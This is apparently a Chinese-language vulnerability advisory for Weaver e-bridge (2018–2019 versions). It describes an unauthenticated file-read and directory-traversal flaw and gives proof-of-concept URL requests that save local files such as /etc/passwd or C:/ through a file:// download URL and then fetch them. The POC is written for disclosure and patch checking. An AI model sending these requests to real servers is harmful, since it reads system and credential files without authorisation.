


#### 漏洞信息:

泛微云桥是一个为了满足用户提出的阿里钉钉与泛微OA集成需泛微0A云桥e-bridge 其 /wxjsapi/saveYZJFile 接口可以读取文件内容并保存，而后可通过/file/fileNoLogin/{id}，读取文件内容。

#### 影响范围:

主要影响 2018-2019 版本

#### 漏洞复现:

如果使用POC回显**`"无法验证您的身份！"`**证明改漏洞已被修复
 **POC中，当downloadUrl的路径为文件夹的时候结果为目录遍历  linux windows 通用**
 Windows POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt #查看页面中的id值
```


```
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```



如果提示`msg "/C: (No such file or directory)" `就表示为Linux系统（表示不存在C盘）
 Linux POC：

```html
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
/file/fileNoLogin/<id> #访问文件接口，根据上一步获取的id对文件内容进行读取
```

### 04 实例

Linux系统主目录（根目录）
 
 Linux中/ect/passwd文件
 

#### 修复方案:

尽快升级到最新版本